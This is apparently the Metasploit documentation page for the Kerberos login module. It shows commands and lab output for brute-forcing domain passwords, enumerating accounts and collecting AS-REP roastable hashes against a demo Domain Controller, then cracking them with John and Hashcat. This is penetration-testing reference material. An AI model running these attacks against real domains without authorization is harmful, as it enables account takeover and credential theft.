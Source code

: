 ## Kerberos Login/Bruteforce

The `auxiliary/scanner/kerberos/kerberos_login` module can verify Kerberos credentials against a range of machines and
report successful logins. If you have loaded a database plugin
and connected to a database this module will record successful
logins and hosts so you can track your access. It will also
store kerberos tickets that can be used even after the user's
password has been changed.

Kerberos accounts which do not require pre-authentication will
have the TGT logged for offline cracking, this technique is known as AS-REP Roasting.

This module is able to identify the following information from the KDC: 

- Valid/Invalid accounts
- Locked/Disabled accounts
- Accounts with expired passwords, when the password matches
- AS-REP Roastable accounts

## Target

To use the `kerberos_login` module, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

### Creating a single Kerberos ticket (TGT)

To create a single Kerberos ticket (TGT), set the username and password options:

```msf
msf auxiliary(scanner/kerberos/kerberos_login) > run rhost=192.168.123.133 domain=DEMO.local username=basic_user password=password verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User found: "basic_user" with password password
[*] Auxiliary module execution completed
```

### Auth Brute

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts and additionally bruteforcing passwords:

Create a new `./users.txt` file and `./wordlist.txt`, then run the module:

```msf
msf auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.133 domain=DEMO.local user_file=./users.txt pass_file=./wordlist.txt verbose=true
[*] Using domain: DEMO.LOCAL - 192.168.123.133:88   ...
[+] 192.168.123.133 - User: "basic_user" is present
[*] 192.168.123.133 - User: "basic_user" wrong password invalid2
[*] 192.168.123.133 - User: "basic_user" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "basic_user" wrong password test_password
[+] 192.168.123.133 - User found: "basic_user" with password password. Hash: $krb5asrep$23$basic_user@DEMO.LOCAL:959b983f9cffc093002d9cd8a20...etc...
[*] 192.168.123.133 - User: "foo" user not found
[*] 192.168.123.133 - User: "foo_bar" user not found
[+] 192.168.123.133 - User: "Administrator" is present
[*] 192.168.123.133 - User: "Administrator" wrong password invalid2
[*] 192.168.123.133 - User: "Administrator" wrong password p4$$w0rd
[*] 192.168.123.133 - User: "Administrator" wrong password test_password
[*] 192.168.123.133 - User: "Administrator" wrong password password
[+] 192.168.123.133 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DEMO.LOCAL:a714f0553589cbd78...etc...
[+] 192.168.123.133 - User: "admin" is present
[*] 192.168.123.133 - User: "admin" wrong password invalid2
[*] 192.168.123.133 - User: "admin" - Kerberos Error - KDC_ERR_KEY_EXPIRED (23) - Password has expired - change password to reset
[*] 192.168.123.133 - User: "admin" wrong password test_password
[*] 192.168.123.133 - User: "admin" wrong password password
[*] Auxiliary module execution completed
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket-granting-ticket present.
The technique of cracking this ticket offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously cracked creds with:

```
creds -v
```

## Options

The `kerberos_login` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The PASS_FILE option**

If you happen to manage all the found passwords in a separate file, then this option would be
suitable for that. One per line.

```
set PASS_FILE [path to file]
```

**The USERPASS_FILE option**

If each user should be using a specific password in your file, then you can use this option. One
username/password per line:

```
set USERPASS_FILE [path to file]
```

**The DB_ALL_CREDS option**

This option allows you to reuse all the user names and passwords collected by the database:

```
set DB_ALL_CREDS true
```

**The DB_ALL_PASS option**

This option allows you to reuse all the passwords collected by the database.

```
set DB_ALL_PASS true
```

**The DB_ALL_USERS option**

This option allows you to reuse all the user names collected by the database.

```
set DB_ALL_USERS true
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
